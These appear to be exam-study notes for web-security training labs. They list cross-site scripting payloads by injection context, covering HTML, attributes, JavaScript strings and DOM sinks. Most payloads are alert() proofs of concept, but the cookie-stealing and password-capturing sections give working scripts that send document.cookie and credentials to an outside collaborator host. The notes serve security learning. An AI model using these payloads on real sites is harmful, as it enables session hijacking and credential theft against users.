 # Exam Notes

- If xss context is **within html tags** 
	- **with no encoding**
		- We can simply introduce the below payload to execute our javascript code.
		```html
		<script>alert(document.domain)</script>
		```  
	- **most tags and attributes blocked**
		- Make use of intruder to identify for any allowed tags and their event hanndlers. 
		- Use the allowed tags and attributes to execute javascript
		- For example, if **body** tag is allowed we can craft a payload with **iframe** to deliver to our victim
			- Browsers when rendering html only allow one *body* tag and merge any events related to inner body tags to the parent body tag. So, in our scenario if we try to inject a body tag with events into our search field, our inner body tag gets removed and the event gets added to the parent body tag.
		```html
		<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
		``` 
		- Another example when **only custom tags are allowed** we can craft a payload that will be automatically triggered on victims end: **`<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script>`**
		- If the application **only allows svg** tag the our payload will be: **`<svg><animatetransform onbegin=alert(1) attributeName=transform>`**
		- If our vss context is within **canonical link tag** our payload would be: **`accesskey='x'onclick'alert(1)`**. **Make sure there are no spaces in our payload**.

> **🗒️ NOTE**
> When trying to find xss make sure to validate all instances of our input within the response. The application might not be implementing encoding or escaping on all those instances.

- If xss context is **into an attribute**
	- **angle brackets html encoded**
		```javascript
		" autofocus onfocus=alert(document.domain) x="
	   ```
		- We are adding **`x="`** to repair the markup from being broken
	- **double quotes encoded and input is within `href` attribute**
		- **`href`** is considered to be a scriptable context. There are other html attributes that act as scriptable contexts by themselves. 
		- We make use of javascript **pseudo-protocol** to execute our payload: 
		```javascript
		javascript:alert(document.domain)
		```

- If xss context is into **JavaScript**
	- **angle brackets html encoded**
		- If our input is within a string then we need to break out of it to introduce javascript code
			```javascript
			';alert(document.domain)//` 
			'-alert(document.domain)-'
		   ```

 	- **single quote and backslash escaped**
		- Browsers first perform html parsing to idenfity page elements and then parse javascript to understand and execute embedded scripts.
		- Even though our payload breaks the markup it doesn't prevent the subsequent script from being parsed and executed in a normal way.
		- We can craft our payload using the above information: 
		  ```html
		  	</script><img src=1 onerror=alert(document.domain)>;
		  ```
  
	- **angle brackets and double quotes html encoded and single quotes escaped**
		- To break out of the string we will append a **`\`** backslash character to our payload: **`\\';alert(document.domain)//`**
		- ***Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. This means that the quote is now interpreted as a string terminator, and so the attack succeeds.***

  	- **within existing javascript in a quoted tag attribute such as `onclick` event with `<>`, and `"` html encoded and `'`, and `\` escaped**
		- Consider and example: 
		```html
		<a href="#" onclick="... var input='controllable data here'; ...">
		```
		- To break out of the string and execute our payload we will make use of: 
		```javascript
		&apos;-alert(document.domain)-&apos;
		```
		- ***Browser's usually HTML-decode the value of the `onclick` attribute before the JavaScript is interpreted, the entities are decoded as quotes, which become string delimiters, and so the attack succeeds.***

  	- **Using template literals **\`\`** (input within backticks) **
		- We can introduce **embedded expressions `${...}`** with javascript code inside: **`${alert(document.domain)}`**

- **Stealing session cookies**
	- Identify the xss context to craft our payload
	- Start burp collaborator and copy the payload url to clipboard
	- Use the following payload to deliver exploit to our victim: 
	```javascript
	<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
	```	

- **capturing passwords**
	- Identify xss context to craft our payload
	- Start burp collaborator and copy payload url to clipboard
	- Use the following payload to deliver exploit to our victim:
	```html
		<input name="username" id="username">
		<input type="password" name="password" onchange="if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
		   method: 'POST',
		   mode: 'no-cors',
		   body: username.value + ':' + this.value
		});">
	```
	- Browsers typically enforce **same-origin-policy** which restricts making a request to a different domain. To bypass this we set **mode: no-cors**.

### DOM XSS
- **source `location.search` and sink `document.write`**
	- **document.write allows executing `<script>` tags** and our payload will be:
	```html
		<script>alert(document.domain)</script>
	```
	- **terminating any strings** to excute our payload:
		1. consider our input is within:
		 ```javascript
			document.write('<img src="/resources/images/tracker.gif?searchTerms='+attacker controllable input+'">');
		```
		2. Our payload will now be:
		```html
			'"><script>alert(document.domain)</script>
	   ```
	- **terminating any tags** to execute our payload:
		1. consider our input is within:
		 ```javascript
			document.write('<select name="...attacker controllable input...">')
		```
		2. Our payload will now be:
		```html
		   "><script>alert(document.domain)</script>
	   ```
- **source `location.search` and sink `innerHTML`**
	- **innerHTML doesn't allow `<script>` tags**, alternatively we can use **`img`** tags to execute our code:
	```html
		<img src=1 onerror=alert(document.domain)>
	```
- **source `location.search` and sink jQuery anchor `href` attribute**
	- Consider an example where the value of **returnPath** is being set to a **href** attribute within an anchor tag which has an id **backLink**:
	```javascript
		<script>
			$(function() {
				$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
			});
		</script>
	```
	- If the **returnPath** is **attacker controllable input** then we can use javascript **pseudo-protocol** to execute our payload:
	```javascript
		javascript:alert(document.domain)
	```
- **source `location.hash` and sink jQuery slection function `$()`**
	- Complete the lab again
- **angularJS expression with angle brackets and double quotes html encoded**
	- Complete the lab again
- **source `location.search` and sink `eval()`**
	- Consider an example where our input is reflected within a json response that will eventually get passed to an **`eval()`**
	- We will the following payload to break out of json and call our javascript code: 
	```javascript
		"-alert()}//
	```
- **When `replace` is used for sanitization**
	- Consider an example where our input is sanitized using the javascript function **`replace`** instead of **`replaceAll`**
	- If the function tries to replace **`<`** and **`>`** then we can craft a payload that would be: 
	```html
		<><img src=1 onerror=alert(1)>
	```
	
